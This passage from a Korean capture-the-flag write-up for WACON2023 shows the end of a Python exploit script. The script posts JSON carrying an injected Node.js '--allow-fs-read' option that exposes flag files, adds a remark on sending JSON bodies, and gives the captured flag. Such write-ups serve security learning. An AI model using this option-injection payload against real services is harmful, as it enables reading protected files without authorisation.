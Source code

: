 ```python
      "opt": "--allow-fs-read=/app/eval*,/flag*"
    }
	
	# Dump from data to json type
  res = s.post(url=url, data=json.dumps(data), headers=header)
  #print(data)

  print(res.text)
 
post_req('login')
post_req('calc')
```

익스 과정에서 주의할 점은

```python
app.use(bodyParser.json());
```

`main.js`에서 위와 같이 json 형태를 그대로 받아서 파싱한다는 점이다.

따라서 `{'Content-Type':'application/json'}`으로 요청하고 `json.dump(data)`해서 보내야지 정상적으로 요청이 전달된다.

```python
WACON2023{9fd79a4784869ba4873aee15c94f15281fa0e26c606e0da6f34f158f46f40889}
```